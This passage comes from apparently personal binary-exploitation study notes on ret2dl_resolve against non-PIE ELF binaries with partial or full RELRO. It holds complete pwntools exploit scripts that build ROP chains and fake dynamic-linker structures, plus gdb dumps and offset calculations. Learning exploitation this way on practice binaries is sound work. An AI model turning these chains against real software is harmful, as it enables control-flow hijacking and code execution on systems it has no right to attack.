	payload += p64(dynaminc_DT_STRTAB)						#where in the .dynamic section on the pointer to .dynstr
	payload += p64(pop_rdx)				
	payload += p64(fake_frame_addr)							#what the pointer to our fake dynstr
	payload += p64(mov_p_rdi_rdx)


	#set args for function we want to resolve
	payload += p64(pop_rdi)
	payload += p64(0x400000)							#argument for the fake function we will resolve
	payload += p64(dl_resolve_setbuf)
	payload += p64(0x11111111111111)*4						#we crash here 

	input('press enter to send Payload')
	s(payload)
	input('press enter to write frame')
	s(fake_dynstr_entry)

	inter()

if __name__ == '__main__':
    pwn()



		
```

</div>
</details>


<details>
    <summary>ret2dl_resolve method 2. (PIE is off// partial RELRO)</summary>
        <div>

# ret2dl_resolve method 2. (PIE is off// partial RELRO)


Prerequisites
1. IP controll
2. ability to write to memory we use read() and a mov [reg],reg and corespoding pop gadgets to write our fake frame/dynstr entry.  (if we cant find a pop rdx we could ret2csu before)

```
readelf -S resolve_partial_relro
		
  [ 6] .dynsym           DYNSYM           00000000004003c8
  [ 7] .dynstr           STRTAB           0000000000400470
  [11] .rela.plt         RELA             0000000000400550
  [22] .dynamic          DYNAMIC          0000000000403e20
  [24] .got.plt          PROGBITS         0000000000404000
  [26] .bss              NOBITS           0000000000404040

```

we can create a fake .rel.plt entry in the .bss and pass a huge index to _dl_runtime_resolve(elf_info,index)

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/_relplt.png">

we set 0x277 as index.   \
than runtime_resolve would look for the .rel.plt entry @ 404078 which is in .bss we have controll over and can place a fake .rel.plt struct here that contains the fake r_info.   

```
addr_fake_frame - addr_of_.rel.plt = byte_offset / 0x18 = index_offset 
0x404078 - 00400550 = 0x3B28/0x18 = 0x277   
```

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/_dynsym.png">
we set our fake r_info to 0x288 and place our fake .dynsym struct that contains the fake st_name entry directly under our fake .rel.plt struct   /
		
```
(addr_fake_struct + len(fake_.rel.plt)) - addr_of_.dynsym = byte_offset / 0x18 = fake_r_info 
(0x404078+0x10) - 004003c8     				#+0x10 cause our fake_.rel.plt is 16 bytes
0x404088 - 004003c8 = 0x3cc0/0x18 = 0x288   
```	

here we set the st_name offset to 0x3c30.    \
starting @ 0x400470 to our fake string @ 0x4040a0    
```
(addr_fake_struct + len(fake_.rel.plt) + len(fake_dynsym)) - addr_of_.dynstr = st_name 
(0x404078+0x10+0x18) - 0x400470    			#+0x10 cause our fake_.rel.plt is 16 bytes +0x18 cause fake_dynsym is 24 bytes
0x4040a0 - 0x400470 = 0x3c30    
```
and as last step we set what libc function we want to resolve into our fake .dynstr entry @ 0x4040a0




This aproach will not work allways:
If the Dynamic loader checks the boundaries.
If symbol versioning and huge pages are enabled. 
		

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/Method2.png">
		
```
#!/usr/bin/env python3
from pwn import *
import ctypes

fname = f'resolve_partial_relro'
ip = '0.0.0.0'
port = 1337

#set target binary and context
elf = context.binary = ELF(f'./{fname}')

#set libc for Pwntools
#libc = ELF('libc.so.6')



gdbscript="""
b *main
b *0x00000000004011c8
b *0x7ffff7fe7bb0
b *0x7ffff7fe00b0
b *0x7ffff7fe010b
b *0x7ffff7fe017f
"""

mode = 'attach'

if mode == 'attach':
    r = process(f'{fname}',aslr=False)

    #attach(f'{fname}',gdbscript=gdbscript)
    #set follow-fork-mode child
elif mode == 'debug':
    r = gdb.debug(f'./{fname}',aslr=False,gdbscript=gdbscript)
elif mode == 'remote':
    r = remote(ip,port)

rb = lambda x :r.recvb(x)
rl = lambda : r.recvline()
ru = lambda x :r.recvuntil(x)
s = lambda x :r.send(x)
sl = lambda x : r.sendline(x)
sla = lambda x,y : r.sendlineafter(x,y)
inter = lambda : r.interactive()

# this will import the libc rand() function that we can use it in ur python script

#libc = ctypes.CDLL('/lib/x86_64-linux-gnu/libc.so.6')


def pwn():


    pop_rdi     = 0x401263
    pop_rsi_r15 = 0x401261
    pop_rdx     = 0x4011d1
    read = elf.plt['read']
    dl_resolve = 0x401020

    dynsym = 0x4003c8
    dynstr = 0x400470
    rel_plt = 0x400550



    fake_frame_addr = 0x404078
    print(f'fake frame addr = {hex(fake_frame_addr)}')
    print(f'fake r_info @ {hex(fake_frame_addr + 0xc)}')


    fake_r_info = int(((fake_frame_addr + 0x18) - dynsym) / 0x18)
    print(f'fake r_info = {hex(fake_r_info)}')
    print(f'fake st_name @ {hex(fake_r_info*0x18 + dynsym)}') #addr of fake_st_name

    #r_info is the offset from .dynsym to our fake .dynsym entry in steps of 0x18
    #0x288*0x18 = 0x3cc0    0x4003c8 + 0x3xcc0 = 0x404088


    fake_st_name = int((fake_frame_addr + 0x10 + 0x18) - dynstr)
    print(f'fake st_name = {hex(fake_st_name)}')
    print(f'fake string entry @ {hex(fake_st_name + dynstr)}')   #addr of fake_string_puts

    #st_name is the offset form .dynstr to our fake string puts
    #0x3c30 + 0x400470 = 0x4040a0




    #fake .rel.plt 0x10
    fake_frame = b''                                                                        
    fake_frame += p64(0x404018)        #0x404078 - 0x404080               #GOT addr where to resolve to                       
    fake_frame += p32(0x7)             #0x404080 - 0x404084               #needet to pass a internal check                    
    fake_frame += p32(fake_r_info)     #0x404084 - 0x404088               #fake_r_info                                             
                                                                          #r_addet we dont need these and it would destory the offsets when we add 8 bytes here
    #fake .dynsym 0x18
    fake_frame += p32(fake_st_name)    #0x404088 - 0x40408c               #st_name                                            
    fake_frame += b'\x00'              #0x40408c - 0x40408d               #st_info                           
    fake_frame += b'\x00'              #0x40408d - 0x40408e               #st_other                                           
    fake_frame += b'\x00\x00'          #0x40408e - 0x404090               #st_shndx                                           
    fake_frame += p64(0x00)            #0x404090 - 0x404098               #st_value                                           
    fake_frame += p64(0x00)            #0x404098 - 0x4040a0               #st_size

    #fake .dynstr entry
    fake_frame += b'puts\x00'          #0x4040a0                        #fake dynstr entry 




    len_fake_frame = len(fake_frame)

    dl_resolve_index = int((fake_frame_addr - rel_plt) / 24)
    print(f'fake Index = {hex(dl_resolve_index)}')

    payload = b''
    payload += b'A'*24              #pad
		
    #setup the read() to write our fake_frame
    payload += p64(pop_rdi)
    payload += p64(0x00)            #read from stdin
    payload += p64(pop_rsi_r15)
    payload += p64(fake_frame_addr)     #.bss addr
    payload += p64(0x00)            #junk r15
    payload += p64(pop_rdx)
    payload += p64(len_fake_frame)
    payload += p64(read)
    
    #setup registers for the resolved function in this case puts		
    payload += p64(pop_rdi)
    payload += p64(0x400000)            #argument for the function we resolve
	
    #setup arguments for the __dl_runtime_resolve() and call it.
    payload += p64(dl_resolve)
    payload += p64(dl_resolve_index)
    #for debugging
    payload += p64(0x1111111111111111)  #we hang here but we executed puts and '\x7fELF' sould be printed

    s(payload)
    pause(5)
    s(fake_frame)
    
    inter()


if __name__ == '__main__':
    pwn()		
```

</div>
</details>


	
	
<details>
    <summary>ret2dl_resolve method 3. (PIE is off//partial RELRO)</summary>
        <div>
in prgoress		
# ret2dl_resolve method 3. (PIE is off//partial RELRO)

Prerequisites
1. IP controll
2. ability to write to memory we use read() but you could also use a mov [reg],reg and corespoding pop gadgets to write our fake frame/dynstr entry.  (if we cant find a pop rdx we could ret2csu before)

3. ability to read a pointer `mov rdi,[rdx]`
4. ability to write to a pointer with an offset  `mov qword ptr [rdx + rsi], rdi; ret;` or something similar add or inc would work to to set the right offset than a `mov [rdx],rdi` would work too. 


elf_info points to a link_map struct    \
the link_map holds a pointer to the .dynstr table at offset 0x68 (offsets can change so allways check this)    \
the elf_info is allways available at a reserved GOT entry GOT[1] (when partial or no RELRO is active)

```
gef➤  got

GOT protection: Partial RelRO | GOT functions: 2
 
[0x404018] read@GLIBC_2.2.5  →  0x7facdbf8f130
[0x404020] setvbuf@GLIBC_2.2.5  →  0x7facdbf05e60

```

		
GOT[1] = 0x0000000000404008│+0x0008: 0x00007facdc0b4190  →  0x0000000000000000
```
gef➤  tel 0x404000
0x0000000000404000│+0x0000: 0x0000000000403e20  →  0x0000000000000001
0x0000000000404008│+0x0008: 0x00007facdc0b4190  →  0x0000000000000000
0x0000000000404010│+0x0010: 0x00007facdc09da60  →   endbr64 
0x0000000000404018│+0x0018: 0x00007facdbf8f130  →  <read+0> endbr64 
0x0000000000404020│+0x0020: 0x00007facdbf05e60  →  <setvbuf+0> endbr64 
0x0000000000404028│+0x0028: 0x0000000000000000
0x0000000000404030│+0x0030: 0x0000000000000000
0x0000000000404038│+0x0038: 0x0000000000000000
0x0000000000404040│+0x0040: 0x00007facdc06a6a0  →  0x00000000fbad2087
0x0000000000404048│+0x0048: 0x0000000000000000
```
0x00007facdc0b41f8│+0x0068: 0x0000000000403ea0  →  0x0000000000000005 we want to overwrite this with our fake_frame addr		
```
gef➤  tel 14 0x00007facdc0b4190
0x00007facdc0b4190│+0x0000: 0x0000000000000000
0x00007facdc0b4198│+0x0008: 0x00007facdc0b4730  →  0x0000000000000000
0x00007facdc0b41a0│+0x0010: 0x0000000000403e20  →  0x0000000000000001
0x00007facdc0b41a8│+0x0018: 0x00007facdc0b4740  →  0x00007fff7a6c5000  →  0x00010102464c457f
0x00007facdc0b41b0│+0x0020: 0x0000000000000000
0x00007facdc0b41b8│+0x0028: 0x00007facdc0b4190  →  0x0000000000000000
0x00007facdc0b41c0│+0x0030: 0x0000000000000000
0x00007facdc0b41c8│+0x0038: 0x00007facdc0b4718  →  0x00007facdc0b4730  →  0x0000000000000000
0x00007facdc0b41d0│+0x0040: 0x0000000000000000
0x00007facdc0b41d8│+0x0048: 0x0000000000403e20  →  0x0000000000000001
0x00007facdc0b41e0│+0x0050: 0x0000000000403f00  →  0x0000000000000002
0x00007facdc0b41e8│+0x0058: 0x0000000000403ef0  →  0x0000000000000003
0x00007facdc0b41f0│+0x0060: 0x0000000000000000
0x00007facdc0b41f8│+0x0068: 0x0000000000403ea0  →  0x0000000000000005
```
							   

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/Method3.png">

							   
							   
```
#!/usr/bin/env python3
from pwn import *


fname = 'resolve_partial_relro'
ip = '0.0.0.0'
port = 5000 #change this
context.binary = elf = ELF('resolve_partial_relro')




LOCAL = True

if LOCAL:
    r = process(fname,aslr=True)

    gdbscript="""
    b *main
    b *0x00000000004011c8
    b *0x00000000004011bb


    """
    #set follow-fork-mode

    attach('resolve_partial_relro',gdbscript=gdbscript)
else:
    r = remote(ip, port)

s = lambda x : r.send(x)
rl = lambda : r.recvline()
rlb = lambda : r.recvlineb()
sl = lambda x : r.sendline(x)
ru = lambda x :r.recvuntil(x)
rcb = lambda x :r.recvb(x)
sla = lambda x,y : r.sendlineafter(x,y)
inter = lambda : r.interactive()


def pwn():



	GOT1 = 0x404008

	pop_rdi = 0x0000000000401273
	pop_rsi_r15 = 0x0000000000401271
	pop_rdx = 0x00000000004011d1

	
	write_with_offset = 0x00000000004011dc				#: mov qword ptr [rdx + rsi], rdi; ret;
	read_from_ptr = 0x00000000004011d8 				#: mov rdi, qword ptr [rdx]; ret; 
	mov_rdx_rdi = 0x00000000004011e1

	resolve = 0x401040						#for setbuf

	fake_frame_addr = 0x00000000004040a0   				#in .bss

	fake_frame = b''
	
	#fake link_map entry for DT_STRTAB						   
	fake_frame += p64(0x5)						#d_tag	#0x4040a0 - 0x4040a8
	fake_frame += p64(fake_frame_addr + 0x10)			#d_val	#0x4040a8 - 0x4040b0
	
	#fake .dynstr						   
	fake_frame += b'\x00'						#start of fake .dynstr 0x4040b0 -
	fake_frame += b'libc.so.6\x00'
	fake_frame += b'stdin\x00'
	fake_frame += b'read\x00'
	fake_frame += b'stdout\x00'
	fake_frame += b'puts\x00\x00\x00'				#setbuf was here before
	fake_frame += b'__libc_start_main\x00'
	fake_frame += b'GLIBC_2.2.5\x00'
	fake_frame += b'__gmon_start__\x00'

	len_fake_frame = len(fake_frame)

	payload = b''
	payload += b'A'*24		

	#write our fake_frame into .bss
	payload += p64(pop_rdi)				
	payload += p64(0x00)					#stdin
	payload += p64(pop_rsi_r15)
	payload += p64(fake_frame_addr)				#where
	payload += p64(0x00)					#junk
	payload += p64(pop_rdx)
	payload += p64(len_fake_frame)				#how many bytes
	payload += p64(elf.plt['read'])



	#get pointer from GOT[1]
	payload += p64(pop_rdx)
	payload += p64(GOT1)
	payload += p64(read_from_ptr)

	#rdi now holds the link_map pointer we need to add 0x68 for the fake DT_STRTAB entry
	
	#we will write with mov qword ptr [rdx + rsi], rdi; ret;
	#so we need to setup the registers
	payload += p64(mov_rdx_rdi)				#rdx now holds the link_map pointer
	payload += p64(pop_rsi_r15)			
	payload += p64(0x68)					#rsi holds the offset
	payload += p64(0x00)					#r15 junk
	payload += p64(pop_rdi)				
	payload += p64(fake_frame_addr)				#rdi holds the addr where we want to point the new d_val to

	#write fake_frame_pointer
	payload += p64(write_with_offset)


	#set arg for resolved puts
	payload += p64(pop_rdi)
	payload += p64(0x400000)

	#and thann call the resolver
	payload += p64(0x401040)

	#we crash here but '\x7fELF' should be printed
	payload += p64(0x111111)*4 

	s(payload)
	input('press enter to send fake_frame')
	s(fake_frame)
	inter()

if __name__ == '__main__':
    pwn()




							   
```
							   
</div>
</details>


		
	
<details>
    <summary>ret2dl_resolve method 4. (PIE is off//full RELRO)</summary>
        <div>
		
# ret2dl_resolve method 4. (PIE is off//full RELRO)
		
in this methode we use a debugging feature DT_DEBUG in the .dynamic section that points to a debugger data struct. (it is used by e.g. gdb to track loading of new librarys)

this DT_DEBUG data struct also holds a pointer to the link_map

but we still have to find the dl_runtime_resolve() cause the reserved GOT entry for it is gone as well as the elf_info link_map reserver GOT

the link_map is part of a linked list.
If we go to the next entry in the liniked list 


Prerequisites
1. IP controll
2. ability to write to an addr `*(destination) = value` 

`mov [rax],rdi`


3. ability to write to a pointer with an offset  `*(*(rax) + offset) = value`


```
mov rax, [rax]
mov [rax + offset],value
```

4. 

```
mov pointer, [pointer]
mov reg, [pointer + offset]
mov [destination], reg
```
5.
```
mov reg, [source]
mov [esp + offset], reg
```

```
     ___________________                     ___________________         ___________________ 
    |   Dynamic section |                   |       [HEAP]      |       |        GOT        |  
    |______.dynamic_____|                   |___________________|     |>|______.plt.got_____|    
    |        ...        |                   |         ...       |     | |       GOT[0]      |   
    |___________________|                   |___________________|     | |___________________|   
    |  d_tag: DT_DEBUG  |                   |      r_version    |     | |       GOT[1]      |      
    |___________________|                   |___________________|     | |___________________|      
    |       d_val       | ---------------->>|        r_map      |     | |       GOT[2]      |---_dl_runtime_resolve
    |___________________|                   |___________________|--|  | |___________________|    
    |        ...        |                   |         ...       |  |  | |       GOT[3]      | 
    |___________________|                   |___________________|  |  | |___________________|   
    |  d_tag: DT_STRTAB |           |-------|l_info [DT_STRTAB] |  |  | |        ...        |  
    |___________________|           | ......|___________________|  |  | |___________________|  
 ---|       d_val       |           | .     |         ...       |  |  |    
 |  |___________________|           | .     |___________________|  |  |   
 |                                  | .   --|       l_next      |<-|  |
 |                                  | .   | |___________________|     |
 |                                  | .   | |         ...       |     |
 |                                  | .   | |___________________|     |
 |                                  | .   |>| l_info[DT_PLTGOT] |-----|
 |                                  | .     |___________________|
 |   ___________________            | .
 ->>|    String table   |<<---------- .
    |______.dynstr______|              .
    |        ...        |               ................
    |___________________|        ___________________   .
    |       read\0      |       |    Writable area  |  .
    |___________________|       |________.bss_______|<<.
    |       puts\0      |<--    |        ...        |
    |___________________|  |    |___________________|
    |        ...        |  |    |       read\0      |
    |___________________|  |    |___________________|
                           |..>>|       execve\0    |
     ___________________   |.   |___________________| 
    |   Symbol table    |  |.  
    |______.dynsym______|  |.    
    |        ...        |  |.   
    |___________________|  |.   
    |      st_name      |--|.    
    |___________________| 
    |      st_info      |    
    |___________________|   
    |        ...        |    
    |___________________| 
```
IN PROGESS
		
		
		
</div>
</details>

# SROP
in progress
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/sigret_frame.png">
